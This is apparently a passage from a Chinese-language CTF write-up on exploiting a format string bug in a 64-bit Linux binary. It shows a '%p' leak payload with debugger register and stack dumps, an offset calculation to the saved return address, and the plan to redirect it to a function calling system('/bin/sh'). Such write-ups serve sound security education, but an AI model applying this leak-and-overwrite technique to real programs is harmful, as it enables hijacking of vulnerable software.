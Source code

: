 ```assembly
$rdi   : 0x00007fffffffe1a0  →  "AAAAAAAA%p%p%p%p%p%p%p%p%p\n" ; fmt str pointer，Linux 64bit传参时的 1st 参数
$rip   : 0x0000000000400b28  →   call 0x400770 <printf@plt>
$r8    : 0x1999999999999999
$r9    : 0x0
$r10   : 0x00007ffff7f5fac0  →  0x0000000100000000
$r11   : 0x246
$r12   : 0x00000000004007b0  →   xor ebp, ebp
$r13   : 0x0
$r14   : 0x0
$r15   : 0x0
$eflags: [zero CARRY parity adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
──────────────────────────────────────────────────────── stack ────
0x00007fffffffe190│+0x0000: 0x00007fffffffe1d0  →  0x00007fffffffe280  →  0x0000000000400eb0  →   push r15       ← $rsp, $rbp
0x00007fffffffe198│+0x0008: 0x0000000000400d74  →   add rsp, 0x30
0x00007fffffffe1a0│+0x0010: "AAAAAAAA%p%p%p%p%p%p%p%p%p\n"       ← $rdi
0x00007fffffffe1a8│+0x0018: "%p%p%p%p%p%p%p%p%p\n"
0x00007fffffffe1b0│+0x0020: "%p%p%p%p%p\n"
0x00007fffffffe1b8│+0x0028: 0x00000000000a7025 ("%p\n"?)
0x00007fffffffe1c0│+0x0030: 0x0000000000000000
0x00007fffffffe1c8│+0x0038: 0x0000000000400d4d  →   cmp eax, 0x2
gef➤  c ; 下面的输出将在后面详细解释：
AAAAAAAA0x4010c30x1a0x7ffff7edcf330x1999999999999999(nil)0x7fffffffe1d00x400d740x41414141414141410x7025702570257025
0x6032a0(nil)(nil)
```

1. RSI=0x4010c3是传参时的2nd参数，对于fmt str pointer来说是1st参数
2. RDX=0x1a
3. RCX=0x7ffff7edcf33
4. R8=0x1999999999999999
5. R9=0x0 (nil)
6. RBP=0x7fffffffe1d0，对于fmt str pointer来说是6th参数。后面会根据这个值来计算返回地址的地址(addr of ret addr)。
7. ret addr=0x400d74，对于fmt str pointer来说是7th参数。利用思路就是更改这个值到目的地址
8. 0x4141414141414141="AAAAAAAA"，对于fmt str pointer来说是8th参数

- RBP(0x00007fffffffe190)中存储的值是上一个栈帧的RBP(0x00007fffffffe1d0)。每次运行时RBP的值会改变，但RBP位置处的值(0x00007fffffffe1d0)可以用`%6p`来输出，故返回地址的地址(即这里的`0x00007fffffffe198`)可以通过偏移量：`0x00007fffffffe198 - 0x00007fffffffe1d0 = -0x38 = -56`，来计算得出。



## Destination Addr

按shift+F12，或在函数调用(Function window / Imports)中，可以找到在`0x00000000004008A6`找到`system(/bin/sh)`调用。故可以改变上面分析到的 返回地址的地址 上面的 返回地址 为`0x00000000004008A6`，从而控制程序去执行`system(/bin/sh)`，也可以更改为`0x00000000004008AA`。

```assembly
.text:00000000004008A6 ; Attributes: bp-based frame
.text:00000000004008A6 sub_4008A6      proc near
.text:00000000004008A6 ; __unwind {
.text:00000000004008A6                 push    rbp
.text:00000000004008A7                 mov     rbp, rsp
.text:00000000004008AA                 mov     edi, offset command ; "/bin/sh"
.text:00000000004008AF                 call    system
.text:00000000004008B4                 pop     rdi
.text:00000000004008B5                 pop     rsi
.text:00000000004008B6                 pop     rdx
.text:00000000004008B7                 retn
.text:00000000004008B7 sub_4008A6      endp ; sp-analysis failed
.text:00000000004008B7 ; ---------------------------------------------------------------------------
```